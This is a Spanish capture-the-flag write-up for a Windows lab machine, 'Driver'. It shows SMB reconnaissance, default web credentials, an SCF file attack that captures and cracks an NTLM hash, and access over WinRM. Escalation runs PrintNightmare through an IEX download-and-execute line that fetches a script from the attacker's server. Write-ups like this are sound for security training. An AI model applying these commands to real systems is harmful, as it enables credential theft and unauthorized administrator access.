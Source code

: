## Summary

Tags: #SMB #SCF #John #Hash #Windows #WinRM #WinPEAS #Nmap 

- IP -> 10.10.11.106
- Ports -> TCP (445, 80, 135,5985), UDP (idk)
- OS ->  Windows
- Services & Applications
    - 80 -> Microsoft IIS httpd 10.0
    - 135 -> Microsoft Windows RPC
    - 445 -> SMB
    - 5985 -> WinRM

## Recon
```bash
❯ whatweb ❮http://IP❯                  # Nos dara una breve descripcion del gestor de contenidos del puerto 80

	# Mirar la jQuery
	# Servidor Web
```
No encontramos nada relevante

```bash
❯ smbclient -L ❮IP❯                   # Lista recursos compartidos a nivel de red haciendo uso de un null sesion (sin credencial alguna)
```
Acceso denegado

```bash
❯ smbmap -H ❮IP❯                      # Herramienta elternativa para ver si nos reporta algo mas y nos reporta los permisos (WRITE, READ)
```
Acceso denegado

```bash
❯ crackmapexec smb ❮IP❯               # Para listar recursos compartidos de Windows
```
No esta firmado, SMBv1, name:DRIVER, domain:DRIVER

* Al momento de entrar a la web. Nos pide una autenticacion, por lo que ponemos el user y passwd por defaul -> admin:admin y logramos entrar.

Wappalyzer:
* IIS 10.0 - Web Servers
* PHP 7.3.25 -Programming Languaje
* JQuery 3.2.1 - JavaScript Libraries

En la parte de Firmware podemos cargar un archivo.  Por lo que estamos frente a un **SCF (Shell Comand Files) File Attack** y lo buscamos en Google. 
* [SCF_File_Attacks](https://nored0x.github.io/red-teaming/smb-share-scf-file-attacks/)

Y haremos el siguiente:
```bash
❯ nano file.scf
	[shell]
	Command=2
	IconFile=\\10.10.14.13\smbFolder\test.ico    # Colocamos nuestra IP ,el recurso que vamos a compartir se llama 'smbFolder' y se cargara un icono aunque no exista
	[Taskbar]
	Command=ToggleDesktop
```

```bash
❯ impacket-smbserver smbFolder $(pwd) -smb2support # Creamos un servicio con SMB 

	# smbFolder = Nos creara un servicio compartido llamado 'smbFolder'
	# pwd = Sincronizado con la ruta absoluta actual 
	# smb2support = En Windows 10 le damos soporte a la version 2
```

Suponiendo que se esta haciendo una autenticacion por detras, despues de subir el archivo y darle 'Submit'. Podemos observar en nuestra consola que hay un usuario llamado **'Tony' con su hash.**

Creamos un archivo que contenga el hash para despues poder usar John y asi crackearlo
```bash
❯ nvim hash
	tony::DRIVER:aaaaaaaa....
```

```bash
❯ john --wordlist=/usr/share/wordlists/rockyou.txt <Hashfile>                              # Usamos John para crackear un hash con fuerza bruta

	# wordlist = Ruta del diccionario rockyou.txt
	# hashfile = Archivo que contiene el hash a crackear
```
Nos devuelve una **passwd=liltony**

```bash
❯ crackmapexec smb ❮IP❯ -u ❮‘user’❯ -p ❮‘password’❯      # Para el servicio 445/tcp smb abierto podemos utilizar el siguiente comando para saber si tenemos credenciales validas, por lo que si nos muestra un (+) quiere decir que si son validas, ademas de que nos da informacion de lo que hay en ese servico (nombre, Window 10.0, dominio, signing=true)(u=user, p=password) Este comando es usado para validar aunque tenga mas aplicaciones.

❯ crackmapexec winrm ❮IP❯ -u ❮‘user’❯ -p ❮‘password’❯    # Despues de saber que las credenciales son validas con crackmapexec, podemos utilizar el puerto de winrm para saber si podemos entrar, pero antes debemos saber si el usuario esta en el grupo Remote management users, para saber si pertenece nos debe poner un (Pwn3d!) y asi podernos autenticar.

# Podemos usar evil-winrm para conectarnos, si tiene el puerto 5985 abierto
```

## User
Como tambien tenemos el puerto 5985 OPEN, nos podemos conectar por evil-winrm
```bash
❯ evil-winrm -i ❮IP❯ -u ❮‘user’❯ -p ❮‘password’❯         # Nos podemos conectar ya al servicio de administracion remota de Windows
```
Entramos a la maquina 

```bash
❯ ipconfig                                   # Nos muestra las interfaces y las direcciones IP
```

```bash
❯ whoami                                     # Miramos el nombre del usuario
```

```bash
❯ net user ❮User❯                            # Para ver los grupos locales y el RMU
```

```bash
❯ type ❮File❯                                # Nos muestra el contenido del archivo
```
Miramos el contenido de la flag user.txt en el Desktop

## Root

```bash
❯  whoami /priv                              # Miramos los privilegios que tenemos   
	
	# SetInpersonatePrivilege = En el cual podriamos usar RottenPotato o  JuicyPotato 
	# SetLoadPrivilege = Para usar el recurso de Tarlogic

❯  whoami /all                               # Miramos todos los privilegios
```
Pero no encontramos nada que nos ayude a escalar

Para poder escalar usaremos **WinPEAS** y lo descargaremos en la maquina de atacante, para despues subirlo a la maquina victima
* [WinPEAS](https://github.com/carlospolop/PEASS-ng/blob/master/winPEAS/winPEASexe/README.md) 
Nos dirigimos a: Download the **latest obfuscated and not obfuscated versions from here**, -> Despues debemos de descargar el archivo **winPeasx64.exe** esto en la maquina de atacante Linux

```bash
C:\Windows\Temp                              # Directorios con capacidad de escritura en Windows
```

Este comando se ejecuta en la maquina Windows
```bash
❯ upload /home/omar/Downloads/Firefox/winpeasx64.exe # Subimos el archivo WinPEAS a la maquina victima, colocando la ruta absoluta de la maquina de atacante en donde se encuentra
```

```bash
❯.\winpeasx64.exe   # Ejecutamos el binario en la maquina victima, y recolectara informacion para ver las vilnerabilidadses y poder escalar privilegios.
```

Encontrams que tiene una vulnerabilidad con Spoolsv, por lo que buscamos en Google como poder explotarla
* [Spoolsv-PrintNightmare LPE (PowerShell)](https://github.com/calebstewart/CVE-2021-1675)
Nos dirigimos dentro a CVE-2021-1675.ps1 y despues a Raw para poderlo clonar en la maquina de atacante Linux
```bash
❯ wget https://raw.githubusercontent.com/calebstewart/CVE-2021-1675/main/CVE-2021-1675.ps1   # Nos descargamos el binario a nuestra maquina de atacante
```

```bash
❯ python3 -m http.server 80                 # Nos montamos un servidor http 80 para pasar el binario
```

En la maquina Windows hacemos lo siguiente para subir el archivo
```bash
❯ IEX(New-Object Net.WebClient).downloadString(‘http://10.10.14.13/CVE-2021-1675.ps1’)  # Con este comando en la maquina victima podemos subir el script en powershell que esta cargado en nuestro servidor
```

Ahora podremos crear un usuario con los privilegios NT/AuthoritySystem
```bash
❯ Invoke-Nightmare -Drivername “Xerox” -NewUser “Omar” -NewPassword “Omar123$!” # Aqui crearemos un .dll en donde pondra nuestro usuario como administrador.
```

```bash
❯ net user                  # Verificamos los usuarios y miramos que ya tenemos asignado nuestro usuario como administrador
```
 
Despues de eso volvemos a verificar con crackmapexec y buscaremos que nos ponga un pwn3d y con eso verificaremos que nos podremos conectar con evilwinrm para que nos de una consola de Administrator
```bash
❯ crackmapexec winrm 10.10.11.106 -u ‘Omar’ -p ‘Omar123$!’ # Aqui veremos si nos pone un pwned y si es asi es porque el usuario normalmente esta en un directorio que se llama 'Remote Management User'.
```
  
```bash
❯ evil-winrm -i 10.10.11.106 -u ‘Omar’ -p ‘Omar123$!’      # Nos podemos conectar ya al servicio de administracion remota de Windows como el usuario Tony
```
  
Una vez adentro buscamos la flag root.txt